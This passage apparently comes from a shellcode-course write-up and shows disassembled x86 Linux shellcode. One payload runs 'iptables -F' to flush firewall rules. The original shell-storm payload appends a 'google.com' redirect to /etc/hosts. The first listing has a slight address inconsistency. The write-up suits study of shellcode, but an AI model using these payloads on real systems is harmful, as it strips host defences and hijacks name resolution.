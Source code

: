 The final shellcode is just slightly larger than the original and sits at 45 bytes (about a 107% of the original).
```nasm
08048080 <_start>:
8048080:	31 c0                	xor    eax,eax
8048082:	50                   	push   eax
8048083:	68 62 6c 65 73       	push   0x73656c62
8048088:	68 69 70 74 61       	push   0x61747069
804808d:	68 69 6e 2f 2f       	push   0x2f2f6e69
8048092:	68 2f 2f 73 62       	push   0x62732f2f
8048097:	89 e3                	mov    ebx,esp
8048099:	50                   	push   eax
804809a:	66 68 2d 46          	pushw  0x462d
804809e:	89 e1                	mov    ecx,esp
80480a0:	50                   	push   eax
80480a1:	51                   	push   ecx
80480a2:	53                   	push   ebx
80480a3:	89 e1                	mov    ecx,esp
80480a5:	b0 0a               	mov    al,0xa
80480a9:	66 40                	inc    ax
80480ab:	cd 80                	int    0x80
```

## Shellcode 3: shellcode-893.php
Location: [http://shell-storm.org/shellcode/files/shellcode-893.php](http://shell-storm.org/shellcode/files/shellcode-893.php)<br/>

### What it does
This shellcode will add a new entry into the /etc/hosts file for "127.1.1.1 google.com".

### The original shellcode
The shellcode takes up 77 bytes.
```nasm
08048080 <_start>:
8048080:	31 c9                	xor    ecx,ecx
8048082:	f7 e1                	mul    ecx
8048084:	b0 05                	mov    al,0x5
8048086:	51                   	push   ecx
8048087:	68 6f 73 74 73       	push   0x7374736f
804808c:	68 2f 2f 2f 68       	push   0x682f2f2f
8048091:	68 2f 65 74 63       	push   0x6374652f
8048096:	89 e3                	mov    ebx,esp
8048098:	66 b9 01 04          	mov    cx,0x401
804809c:	cd 80                	int    0x80
804809e:	93                   	xchg   ebx,eax
804809f:	6a 04                	push   0x4
80480a1:	58                   	pop    eax
80480a2:	eb 10                	jmp    80480b4 <_load_data>

080480a4 <_write>:
80480a4:	59                   	pop    ecx
80480a5:	6a 14                	push   0x14
80480a7:	5a                   	pop    edx
80480a8:	cd 80                	int    0x80
80480aa:	6a 06                	push   0x6
80480ac:	58                   	pop    eax
80480ad:	cd 80                	int    0x80
80480af:	6a 01                	push   0x1
80480b1:	58                   	pop    eax
80480b2:	cd 80                	int    0x80

080480b4 <_load_data>:
80480b4:	e8 eb ff ff ff       	call   80480a4 <_write>
```
